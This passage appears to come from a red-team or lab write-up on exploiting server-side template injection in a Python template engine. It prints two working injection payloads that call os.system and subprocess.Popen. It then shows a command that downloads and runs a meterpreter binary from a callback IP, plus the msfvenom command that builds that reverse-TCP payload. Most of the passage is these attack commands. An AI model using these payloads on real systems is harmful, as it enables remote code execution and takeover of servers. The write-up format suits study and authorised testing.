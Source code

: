 `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("CMD") }}`


* Hard way: Using object introspection to find the `subprocess.popen` method.
For the hard way, we enumerate the subclasses to find the `subprocess.popen` method.

![ssti](/assets/redteam/SSTIIntend.png)
![ssti](/assets/redteam/SSTIIntend2.png)

We sort all the classes and method to find the offset of our method. It appears to be the offset `418 - 1` (array start at 0).

Therefore by calling `{{ ().__class__.__bases__[0].__subclasses__()[417]("CMD") }}` we obtain the popen method to perform arbitrary command.

Now that we have a RCE on the application, we now want a shell. For that, we'll make the application to download a meterpreter and execute it.

The payload will be: `cd /tmp && wget http://<CALLBACK_IP>/meter.elf && chmod +x /tmp/meter.elf && /tmp/meter.elf`.

To craft the meterpreter I used: `msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -a x64 LHOST=<CALLBACK_IP> LPORT=PORT > meter.elf`

![meterpreter](/assets/redteam/meterpreter.png)
![meterpreter callback](/assets/redteam/meterpreterCallBack.png)
